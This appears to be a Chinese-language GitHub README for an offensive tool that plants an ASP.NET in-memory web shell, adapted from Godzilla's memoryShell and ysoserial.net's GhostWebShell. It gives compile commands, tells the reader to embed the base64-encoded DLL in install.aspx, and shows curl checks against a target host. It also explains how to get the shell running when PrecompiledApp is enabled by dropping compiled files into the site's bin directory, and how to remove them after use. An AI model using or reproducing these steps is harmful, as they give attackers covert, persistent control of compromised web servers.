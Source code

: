 # Memshell-VirtualPath
## 说明
`GhostWebShell.cs` 为Yso.net里面的代码，地址：[这里](https://github.com/pwntester/ysoserial.net/blob/master/ExploitClass/GhostWebShell.cs)，在这不做过多介绍。

`memshell.cs` 代码来源于 Godzilla-4.01 `shells/plugins/cshap/assets/memoryShell.dll`，做了一些小的修改。以下说明均为`memshell.cs`的使用方式。

代码中需要修改的点
```
input_key  为Godzilla 里面的key
pass       为Godzilla 里面的pass
```

## 编译

**dll**
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.Web.dll,System.dll,Microsoft.CSharp.dll,System.Core.dll /t:library memshell.cs
```

## 使用
编译dll, base64编码以后，替换`install.aspx`中的`%%base64%%`字符串。

**验证：**
```
curl http://10.211.55.201/random.aspx -k -H "Type: print"
curl http://10.211.55.201/random.aspx/xxx -k -H "Type: print"
```
![](../assets/16387937389229.jpg)


**Godzilla**
添加对应HTTP头即可。
AES_RAW

![](../assets/16384242085416.jpg)

AES_BASE64

![](../assets/16384242790653.jpg)

### PrecompiledApp

如目标开启了`PrecompiledApp`，上传aspx会碰到这样的报错：
![](../assets/16387943196296.jpg)

这个时候需要编译我们的aspx，再上传，编译：
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\aspnet_compiler.exe -v \ -p 1 2 -fixednames
```

![](../assets/16387944206523.jpg)

再将我们编译好的bin目录下的内容，丢到网站的bin目录即可。

![](../assets/16387944736561.jpg)

访问以后，可通过上面的方式访问shell，另外，其他上传其他的aspx文件，无需再编译上传即可正常访问，收工后，`删掉bin目录下上图的两个文件`，shell`不可访问`, 其他自己上传的aspx文件也`需要编译`才可访问。

### bypassFriendlyUrlRoute
Godzilla的实现与[GhostWebShell](https://github.com/pwntester/ysoserial.net/blob/master/ExploitClass/GhostWebShell.cs#L43)中的实现方法是一样的。 如果需要，去掉代码里的注释即可。


